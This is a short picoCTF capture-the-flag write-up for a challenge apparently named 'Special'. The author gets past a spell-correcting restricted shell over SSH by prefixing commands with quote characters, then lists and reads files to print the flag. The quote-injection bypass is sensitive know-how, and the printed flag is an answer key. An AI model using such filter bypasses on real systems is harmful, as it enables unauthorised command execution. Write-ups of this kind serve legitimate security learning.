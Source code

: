 <img width="611" alt="Special_Description" src="https://github.com/sahinyurek/picoCTF-writeups/assets/62119201/679e8d2b-3eb4-4a73-93d5-ff63ccb46f1f">

After a lot of trying I've found using four quotes before the command does work to run commands. Then I found a directory but couldn't cd to it so I used cat * to read everything.

```shell
┌──(xodzk㉿kali)-[~]
└─$ ssh -p 63887 ctf-player@saturn.picoctf.net

Special$ ""pwd
""pwd 
/home/ctf-player
Special$ """"ls
""""ls 
blargh
Special$ """"cd" "blargh        
""""cd" "blargh 
sh: 1: cd blargh: not found
Special$ """"cat *
""""cat * 
cat: blargh: Is a directory
Special$ """"cat blargh/*
""""cat blargh/* 
picoCTF{5p311ch3ck_15_7h3_w0r57_a60bdf40}
```
